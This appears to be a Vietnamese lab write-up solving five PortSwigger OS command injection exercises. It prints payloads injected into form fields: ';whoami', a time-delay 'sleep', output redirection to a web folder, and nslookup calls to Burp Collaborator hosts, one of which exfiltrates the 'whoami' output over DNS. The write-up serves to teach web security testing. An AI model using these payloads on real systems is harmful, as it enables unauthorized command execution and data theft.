

# OS command injection

## Lab 1: [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

> This lab contains an OS command injection vulnerability in the product stock checker.
>
> The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
>
> To solve the lab, execute the `whoami` command to determine the name of the current user.

Truy cập vào lab, chúng ta thấy trang web như sau:


Theo như mô tả, trang web dính lỗi OS command injection ở chức năng kiểm tra hàng hoá. Nhấn "View details" ở mục đầu tiên, chúng ta xác định được có chức năng kiểm tra số lượng hàng trong kho:


Bên dưới là POST request khi nhấn "Check stock":


Chúng ta cần thực thi lệnh `whoami` để có thể biết được tên người dùng hiện tại.

Vậy, gửi request sang Repeater, chúng ta thêm payload `;whoami` vào giá trị của tham số `storeId`. Gửi request, chúng ta sẽ thấy tên của người dùng hiện tại được trả về:


Thành công, chúng ta đã giải được bài lab:


## Lab 2: [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

> This lab contains a blind OS command injection vulnerability in the feedback function.
>
> The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.
>
> To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

Truy cập vào lab, chúng ta thấy trang web như sau:


Theo như mô tả của bài lab, trang web này dính lỗi OS command injection ở chức năng feedback nên chúng ta di chuyển tới đó để khai thác:


Sau khi nhập thông tin vào các trường rồi nhấn "Submit feedback" có một POST request được gửi đi:


Mục tiêu là khiến server phản hồi sau 10 giây nên chúng ta sẽ thay đổi giá trị của tham số `email` thành payload sau:

```sh
`sleep 10`
```

Gửi request và sau khoảng 10 giây mới thấy response:


Vậy là chúng ta đã giải được bài lab thành công:


## Lab 3: [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

> This lab contains a blind OS command injection vulnerability in the feedback function.
>
> The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
>
> ```text
> /var/www/images/
> ```
>
> The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.
>
> To solve the lab, execute the `whoami` command and retrieve the output.

Bắt đầu vào lab, chúng ta thấy trang web sau:



Theo như mô tả, trang web này vẫn dính lỗ hổng OS command injection ở tính năng feedback, nhưng output của lệnh shell không được trả về trong response.

Tuy nhiên, chúng ta vẫn có thể chuyển hướng output của lệnh tới một file nằm trong thư mục `/var/www/images/`.

Trước tiên, di chuyển vào chức năng feedback để nhập thông tin được yêu cầu:


Bên dưới là POST request khi nhấn "Submit feedback":


Gửi request này sang Repeater, chúng ta có thể thay đổi giá trị của tham số `email` thành payload bên dưới để lấy tên người dùng hiện tại và chuyển output đó tới file `out` nằm trong thư mục `images`.

```sh
`$(whoami > /var/www/images/out)`
```


Quay trở lại HTTP history, chúng ta tìm tới request file ảnh:


Gửi request trên sang Repeater, thay đổi giá trị của tham số `filename` thành `out` để có thể đọc nội dung của file đó:


Như vậy, đã thấy tên của người dùng hiện tại và chúng ta giải được bài lab:


## Lab 4: [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

> This lab contains a blind OS command injection vulnerability in the feedback function.
>
> The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
>
> To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

Truy cập vào bài lab, chúng ta thấy trang web sau:


Theo mô tả, trang web này tiếp tục dính lỗ hổng OS command injection ở chức năng feedback. Tuy nhiên, chúng ta không thể thấy được kết quả của lệnh trong response từ server hay thực hiện redirect output tới một thư mục khác như đã làm ở lab trước.

Để giải được bài lab này chúng ta cần phải tạo một DNS lookup tới Burp Collaborator.

Bắt đầu thực hiện, chúng ta nhập các thông tin được yêu cầu vào form:


Bên dưới là POST request khi nhấn "Submit feedback":


Gửi request trên sang Repeater, chúng ta thay đổi giá trị của tham số `email` thành payload sau:

```sh
`nslookup r1thk4vvbaxw4wnbo4fyyg1ullrcf23r.oastify.com`
```


Chờ đợi một lúc, chúng ta sẽ quan sát thấy kết quả bên tab Collaborator:


Như vậy là đã giải được bài lab:


## Lab 5: [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

> This lab contains a blind OS command injection vulnerability in the feedback function.
>
> The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
>
> To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

Bắt đầu bài lab, chúng ta thấy giao diện web như sau:


Theo như mô tả, trang web lại dính lỗi OS command injection ở chức năng feedback và chúng ta cần phải thực thi lệnh `whoami` rồi lấy kết quả thông qua DNS query tới Burp Collaborator.

Để thực hiện, chúng ta di chuyển tới trang feedback và nhập các trường thông tin được yêu cầu:


Bên dưới là POST request khi nhấn "Submit feedback":


Gửi request trên sang Repeater, chúng ta thay đổi giá trị của tham số `email` thành payload sau:

```sh
$(nslookup `whoami`.woom79i0yfk1r1agb923lloz8qeh28qx.oastify.com)
```


Sau khi gửi request và chờ đợi một lúc, chúng ta thấy kết quả bên tab Collaborator:


Submit solution với `peter-S9J3m2`, chúng ta giải bài lab thành công:


